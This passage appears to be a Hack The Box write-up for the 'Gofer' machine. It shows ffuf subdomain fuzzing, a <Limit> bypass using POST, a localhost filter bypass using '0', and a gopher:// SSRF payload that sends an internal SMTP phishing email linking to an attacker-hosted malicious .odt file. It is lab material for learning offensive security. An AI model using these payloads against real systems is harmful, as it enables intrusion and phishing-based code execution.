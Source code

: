 ```
From jdavis@gofer.htb  Fri Oct 28 20:29:30 2022
Return-Path: <jdavis@gofer.htb>
X-Original-To: tbuckley@gofer.htb
Delivered-To: tbuckley@gofer.htb
Received: from gofer.htb (localhost [127.0.0.1])
        by gofer.htb (Postfix) with SMTP id C8F7461827
        for <tbuckley@gofer.htb>; Fri, 28 Oct 2022 20:28:43 +0100 (BST)
Subject:Important to read!
Message-Id: <20221028192857.C8F7461827@gofer.htb>
Date: Fri, 28 Oct 2022 20:28:43 +0100 (BST)
From: jdavis@gofer.htb

Hello guys,

Our dear Jocelyn received another phishing attempt last week and his habit of clicking on links without paying much attention may be problematic one day. That's why from now on, I've decided that important documents will only be sent internally, by mail, which should greatly limit the risks. If possible, use an .odt format, as documents saved in Office Word are not always well interpreted by Libreoffice.

PS: Last thing for Tom; I know you're working on our web proxy but if you could restrict access, it will be more secure until you have finished it. It seems to me that it should be possible to do so via <Limit>
```

#### Exploiting the Web Proxy
From the contents of the intercepted email, the potential for exploiting the Gopher protocol became evident. The goal was to utilize this protocol to dispatch an SMTP message directly to the internal port 25. This intricately crafted message was designed to house a link, leading to an .odt file. Hidden within this file was a meticulously designed Remote Code Execution (RCE) vulnerability.

To shed more light on potential entry points, a systematic subdomain fuzzing was initiated using ffuf. The command executed was:
```
ffuf -w $/wordlists/dns/subdomains.txt -u http://10.10.11.225 -H 'Host: FUZZ.gofer.htb' -mc all -fw 20
```

This diligent search revealed the proxy.gofer.htb subdomain. However, initial attempts to engage with the proxy using the GET method were met with staunch resistance - the response was an unwavering "unauthorized". It was at this juncture that a misconfiguration related to <Limit> was identified and exploited. By switching to a POST method, we were able to navigate past this roadblock.

Yet another challenge presented itself when attempts to reference localhost using the standard 127.0.0.1, localhost, or even the abbreviated 127 were blocked — all of these were on the blacklist. But every system has a chink in its armor. In this case, it was the overlooked representation of localhost as 0. Using this representation, we successfully bypassed the filter, leading to the crafting and deployment of the final payload.

```
gopher://0:25/_MAIL FROM:<jdavis@gofer.htb>
RCPT To:<jhudson@gofer.htb>
DATA
From:jdavis@gofer.htb
Subject:Client Docs
Message:<a href="http://10.10.14.27:8080/rce.odt>clients.odt</a>
.
```
Dispatching the request
```
POST /index.php?url=gopher%3a//0%3a25/_MAIL%2520FROM%3a<jdavis%2540gofer.htb>%250ARCPT%2520To%3a<jhudson%2540gofer.htb>%250ADATA%250AFrom%3ajdavis%2540gofer.htb%250ASubject%3aClient%2520Docs%250AMessage%3a%253Ca%2520href%253D%2522http%3a//10.10.14.27%3a8080/rce.odt%253Eclients.odt%253C/a%253E%250A. HTTP/1.1
Host: proxy.gofer.htb
```